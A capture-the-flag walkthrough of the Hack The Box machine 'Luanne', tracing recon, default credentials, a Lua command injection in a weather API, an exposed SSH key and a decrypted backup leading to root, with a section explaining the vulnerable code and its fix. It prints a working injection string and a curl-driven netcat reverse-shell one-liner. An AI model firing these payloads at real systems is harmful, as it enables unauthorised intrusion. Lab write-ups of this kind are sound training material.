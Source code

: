 **HTB: Luanne Walkthrough**
### Recon

**Nmap Scan:**
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9001 (Supervisor Process Manager)
- OS: NetBSD
- TCP 9001 is running Supervisor Process Manager, protected by HTTP Basic Auth

**Supervisor Manager:**
- Default credentials `user:123` worked
- Found process showing `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua`
- Indicates a Lua script serving weather API on localhost:3000

**Port 80 HTTP:**
- Protected by HTTP Basic Auth
- `.htpasswd` file found with hash
- Cracked to `webapi_user:iamthebest`
- Gave access to basic HTML with links to the weather API

---

### Weather API Enumeration

- Endpoint: `/weather/forecast`
- Accepts parameter: `city`
- `city=list` reveals cities
- Invalid city gives a 500 error with `unknown city: input`

**Potential Injection Point:**
- Submitting `'` crashes script
- Submitting `') os.execute('id') --` results in command execution
- Verified command injection via Lua using `os.execute`

**Reverse Shell via FIFO method:**
```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast'
```
- Connected back as user `_http`

---

### PrivEsc to `r.michaels`

**In `/var/www`:**
- `.htpasswd` file with different hash
- Cracked to `webapi_user:iamthebest`

**From supervisord output:**
- User `r.michaels` running another web server on 127.0.0.1:3001
- Lua script served from `/home/r.michaels/devel/webapi/weather.lua`

**Localhost Port 3001:**
- Used credentials on `http://127.0.0.1:3001/~r.michaels/`
- Directory listing exposed `id_rsa`
- SSH key retrieved and used to login as `r.michaels`

---

### PrivEsc to root

**Found `/usr/pkg/etc/doas.conf`:**
- Allowed `r.michaels` to run anything as root
- Needed password

**Found encrypted backup in `~/backups/`:**
- `devel_backup-2020-09-16.tar.gz.enc`

**Used netpgp to decrypt:**
```bash
netpgp --decrypt --output=/tmp/backup.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
```

**Inside decrypted archive:**
- Found `.htpasswd` with hash
- Cracked to `littlebear`
- Used with `doas` to get root shell:
```bash
doas -u root sh
Password: littlebear
```

**Root Flag Captured**

---

### Beyond Root: Lua Injection Insight

**Vulnerability was in:**
```lua
local json = string.format([[
  httpd.write('{"code": 500,')
  httpd.write('"error": "unknown city: %s"}')
]], city)
load(json)()
```
- Unescaped input allowed arbitrary code execution

**Fixed in dev version:**
```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
- Avoided use of `load()`

---

**Summary:**
- Initial foothold via Lua injection on weather API
- User escalation via exposed SSH key in web directory
- Root via encrypted backup revealing password used for `doas`